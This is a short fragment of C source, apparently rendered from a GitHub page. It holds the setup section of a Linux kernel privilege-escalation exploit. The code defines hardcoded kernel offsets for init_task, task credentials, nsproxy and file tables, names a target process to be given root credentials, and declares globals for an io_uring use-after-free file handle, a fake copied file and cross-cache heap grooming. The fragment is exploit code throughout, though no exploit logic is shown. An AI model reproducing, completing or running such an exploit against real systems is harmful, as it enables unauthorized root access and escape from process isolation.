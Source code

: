 ```c
// error_entry inside cpu_entry_area pointer
#define ERROR_ENTRY_ADDR 0xfffffe0000002f48UL
// Offset from `error_entry` pointer to kernel base
#define EE_OFF 0xe0124dUL
// Kernel text signature
#define KERNEL_SIGNATURE 0x4801803f51258d48UL
// Offset from kernel base to init_task
#define INIT_OFF 0x18149c0UL
// Offset from task to task->comm
#define COMM_OFF 0x738UL
// Offset from task to task->real_cred
#define REAL_CRED_OFF 0x720UL
// Offset from task to task->cred
#define CRED_OFF 0x728UL
// Offset from task to task->nsproxy
#define NSPROXY_OFF 0x780UL
// Offset from task to task->files
#define FILES_OFF 0x770UL
// Offset from task->files to &task->files->fdt
#define FDT_OFF 0x20UL
// Offset from &task->files->fdt to &task->files->fdt->fd
#define FD_ARRAY_OFF 0x8UL
// Offset from task to task->tasks.next
#define TASKS_NEXT_OFF 0x458UL
// Process name to give root creds to 
#define TARGET_TASK "blegh2"
// Our process name
#define OUR_TASK "blegh1"
// Offset from kernel base to io_uring_fops
#define FOPS_OFF 0x1220200UL

// Shared memory with child
void *g_shmem;

// Child pid
pid_t g_child = -1;

// io_uring instance to use
struct io_uring g_ring = { 0 };

// UAF file handle
int g_uaf_fd = -1;

// Track pipes
struct fd_pair {
    int fd[2];
};
struct fd_pair g_pipe = { 0 };

// The offset on the page where our `file` is
size_t g_off = 0;

// Our fake file that is a copy of a legit io_uring fd
unsigned char g_ring_copy[256] = { 0 };

// Keep track of files added in Cross-cache steps
int g_cc1_fds[CROSS_CACHE_MAX] = { 0 };
size_t g_cc1_num = 0;
int g_cc2_fds[CROSS_CACHE_MAX] = { 0 };
size_t g_cc2_num = 0;
int g_cc3_fds[CROSS_CACHE_MAX] = { 0 };
size_t g_cc3_num = 0;

```